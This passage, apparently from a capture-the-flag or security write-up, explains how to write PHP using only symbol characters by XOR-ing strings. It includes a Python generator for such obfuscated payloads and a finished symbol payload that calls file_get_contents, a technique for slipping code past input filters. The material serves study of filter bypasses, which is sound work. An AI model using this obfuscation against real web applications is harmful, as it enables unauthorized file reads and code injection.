 This is almost 10 times longer than just writing the original `echo` text. We need to find a way to compress this. Luckily it's not super hard to optimize it. We can use the xor operator on strings longer than one character. So we can actually combine the xor operations into one. 

```php
('@@@@'^'%#(/') // Output: echo
```

Now it's just slightly above double the size of our original text. And luckily PHP allows us to call functions using this method, so we should be able to call our `file_get_contents()` function like this. 

But doing this by hand is tiresome, so we can write a short python script to generate the xor payload for us. 

```python
def encode_string(input_str):
    char_mapping = {
        'a': ('@', '!'), 'b': ('@', '"'), 'c': ('@', '#'), 'd': ('^', ':'),
        'e': ('@', '%'), 'f': ('@', '&'), 'g': ('@', '\''), 'h': ('@', '('),
        'i': ('@', ')'), 'j': ('@', '*'), 'k': ('@', '+'), 'l': ('@', ','),
        'm': ('@', '-'), 'n': ('@', '.'), 'o': ('@', '/'), 'p': ('^', '.'),
        'q': ('^', '/'), 'r': ('^', ','), 's': ('^', '-'), 't': ('^', '*'),
        'u': ('^', '+'), 'v': ('^', '('), 'w': ('^', ')'), 'x': ('#', '['),
        'y': ('^', '\''), 'z': ('@', ':'), '_': ('#', '|'), 'A': ('!', '`'),
        'B': ('}', '?'), 'C': ('#', '`'), 'D': ('{', '?'), 'E': ('%', '`'),
        'F': ('&', '`'), 'G': ('{', '<'), 'H': ('(', '`'), 'I': (')', '`'),
        'J': ('*', '`'), 'K': ('+', '`'), 'L': (',', '`'), 'M': ('-', '`'),
        'N': ('.', '`'), 'O': ('/', '`'), 'P': ('-', '}'), 'Q': ('*', '{'),
        'R': (')', '{'), 'S': ('(', '{'), 'T': ('(', '|'), 'U': ('(', '}'),
        'V': ('*', '|'), 'W': ('*', '}'), 'X': ('#', '{'), 'Y': ('%', '|'),
        'Z': ('!', '{'), ' ': ('@', '`'), '0': ('@', '}'),
    }
    
    # Check if all characters can be encoded
    if all(c in char_mapping for c in input_str):
        # Encode the entire string at once
        first_chars = ''.join(char_mapping[c][0] for c in input_str)
        second_chars = ''.join(char_mapping[c][1] for c in input_str)
        return f"('{first_chars}'^'{second_chars}')"
    
    # Fall back to character-by-character encoding
    encoded_parts = []
    for c in input_str:
        if c in char_mapping:
            char1, char2 = char_mapping[c]
            encoded_parts.append(f"('{char1}'^'{char2}')")
        else:
            encoded_parts.append(f"'{c}'")
    
    return ".".join(encoded_parts)
```

Now putting `file_get_contents` into this function, we get our symbol payload `('@@@@#@@^#@@@^@@^^'^'&),%|\'%*|#/.*%.*-')`.
